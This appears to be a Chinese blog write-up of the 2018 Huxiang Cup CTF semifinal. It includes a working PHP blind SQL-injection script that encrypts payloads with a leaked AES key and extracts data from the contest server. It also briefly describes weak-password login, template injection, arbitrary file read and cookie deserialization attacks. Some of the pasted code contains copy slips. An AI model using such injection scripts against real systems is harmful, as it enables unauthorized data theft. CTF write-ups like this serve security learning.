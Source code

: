 ```yaml
---
layout: post
title: 2018湖湘杯复赛writeup
author: "TripleMix战队"
header-style: text
lang: zh
tags:
  - writeup
  - ctf
  - web
---
```


>感谢两位队友大佬带我飞

# 签到题SingIn  Welcome
关注合天智汇公众号
# Code Check(web)
御剑扫描，发现news目录可以下载到list.php的源码：
![](/img/in-post/post-2018湖湘杯-writeup/image2.png)
![](/img/in-post/post-2018湖湘杯-writeup/image3.png)
![](/img/in-post/post-2018湖湘杯-writeup/image4.png)
发现只要构造一个请求包将id逆向加密AES128的CBC模式，并base64两次，就可以布尔sql注入，编写代码，经过一番寻找发现flag在notic2中
```
<?php 

function decode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = mdecrypt_generic($td,base64_decode(base64_decode($data)));
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	if(substr(trim($data),-7)!=='hxb2018'){
		echo '<script>window.location.href="/index.php";</script>';
	}else{
		return substr(trim($data),0,strlen(trim($data))-7);
	}
}


function encode($data){
$data=strval($data)."hxb2018";
$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
$data = mcrypt_generic($td,$data);

$data=base64_encode(base64_encode($data));


//echo $data;
return $data;
}
//echo substr(trim('123456789'),-7);
function fuck($data){
$url='http://47.107.164.116:49882/news/list.php?id='.strval($data);
//echo $url;
$html = file_get_contents($url);
//echo $html;
return $html;
}
for ($i=1; $i<=100; $i++) {
  for ($c=33; $c<=125; $c++) {
	  //echo chr($c);
  if(strpos(fuck(encode('1 and ascii(substring((select title from notice2),'.strval($i).',1))='.strval($c))),'XWAY')!==false)
  {
  		echo chr($c);
  		break;
  }
} 
} for ($i=1; $i<=100; $i++) {
  for ($c=33; $c<=125; $c++) {
	  //echo chr($c);
  if(strpos(fuck(encode('1 and ascii(substring((select title from notice2),'.strval($i).',1))='.strval($c))),'XWAY')!==false)
  {
  		echo chr($c);
  		break;
  }
} 
} 
```

# flow (misc)
发现是802.11协议，猜测为wifi密码破解，使用wifipr破解
![](/img/in-post/post-2018湖湘杯-writeup/image6.png)
使用密码password1来在wireshark里解密流量包，跟踪tcp协议发现flag
![](/img/in-post/post-2018湖湘杯-writeup/image7.png)
![](/img/in-post/post-2018湖湘杯-writeup/image8.png)

# XmeO (web)
进去系统后，尝试弱密码admin/admin发现进入后台，根据已有的条目怀疑是模板注入，使用内容搜索即可得到flag
![](/img/in-post/post-2018湖湘杯-writeup/image9.png)
![](/img/in-post/post-2018湖湘杯-writeup/image10.png)

# Disk (misc)
使用winhex打开该镜像，浏览分区1，发现4个txt里具有ntfs流隐藏
![](/img/in-post/post-2018湖湘杯-writeup/image11.png)
按照顺序打开这些ads，发现是一堆01，将其转化为字符串得到flag
![](/img/in-post/post-2018湖湘杯-writeup/image12.png)

# Replace (reverse)
Peid查壳发现是upx，先脱壳
![](/img/in-post/post-2018湖湘杯-writeup/image13.png)
发现加密的主要逻辑
![](/img/in-post/post-2018湖湘杯-writeup/image15.png)
逆向计算
```
iv='2a49f69c38395cde96d6de96d6f4e025484954d6195448def6e2dad67786e21d5adae6'
iv2='a49f69c38395cde96d6de96d6f4e025484954d6195448def6e2dad67786e21d5adae6'
f='\x03\x7C\x77\x7B\xF2\x6B\x6F\xC5\x30\x01\x67\x2B\xFE\xD7\xAB\x76\xCA\x82\xC9\x7D\xFA\x59\x47\xF0\xAD\xD4\xA2\xAF\x9C\xA4\x72\xC0\xB7\xFD\x93\x26\x36\x3F\xF7\xCC\x34\xA5\xE5\xF1\x71\xD8\x31\x15\x04\xC7\x23\xC3\x18\x96\x05\x9A\x07\x12\x80\xE2\xEB\x27\xB2\x75\x09\x83\x2C\x1A\x1B\x6E\x5A\xA0\x52\x3B\xD6\xB3\x29\xE3\x2F\x84\x53\xD1\x00\xED\x20\xFC\xB1\x5B\x6A\xCB\xBE\x39\x4A\x4C\x58\xCF\xD0\xEF\xAA\xFB\x43\x4D\x33\x85\x45\xF9\x02\x7F\x50\x3C\x9F\xA8\x51\xA3\x40\x8F\x92\x9D\x38\xF5\xBC\xB6\xDA\x21\x10\xFF\xF3\xD2\xCD\x0C\x13\xEC\x5F\x97\x44\x17\xC4\xA7\x7E\x3D\x64\x5D\x19\x73\x60\x81\x4F\xDC\x22\x2A\x90\x88\x46\xEE\xB8\x14\xDE\x5E\x0B\xDB\xE0\x32\x3A\x0A\x49\x06\x24\x5C\xC2\xD3\xAC\x62\x91\x95\xE4\x79\xE7\xC8\x37\x6D\x8D\xD5\x4E\xA9\x6C\x56\xF4\xEA\x65\x7A\xAE\x08\xBA\x78\x25\x2E\x1C\xA6\xB4\xC6\xE8\xDD\x74\x1F\x4B\xBD\x8B\x8A\x70\x3E\xB5\x66\x48\x03\xF6\x0E\x61\x35\x57\xB9\x86\xC1\x1D\x9E\xE1\xF8\x98\x11\x69\xD9\x8E\x94\x9B\x1E\x87\xE9\xCE\x55\x28\xDF\x8C\xA1\x89\x0D\xBF\xE6\x42\x68\x41\x99\x2D\x0F\xB0\x54\xBB\x16'ans=''
for i in range(0,35):
	for c in range(33,126):
		v6=(c>>4)%16
		v7=(16*c>>4)%16
		v8=ord(iv[2*i])
		if v8<48 or v8>57:
			v9=v8-87
		else:
			v9=v8-48
			v10=ord(iv2[2*i])
			v11=16*v9
		if v10<48 or v10>57:
			v12=v10-87
		else:
			v12=v10-48
		if ord(f[16*v6+v7])==(v11+v12)^0x19:
			print chr(c)
			ans=ans+chr(c)
print ans
```

# Readflag  (web)
首先查看apache配置文件路径
![](/img/in-post/post-2018湖湘杯-writeup/image17.png)
猜测flag文件名称
![](/img/in-post/post-2018湖湘杯-writeup/image18.png)

# MyNote  (web)
发现picture功能可以任意文件读取，cookie中存在反序列化，只要相应构造Picture这个序列化cookie
![](/img/in-post/post-2018湖湘杯-writeup/image19.png)
![](/img/in-post/post-2018湖湘杯-writeup/image20.png)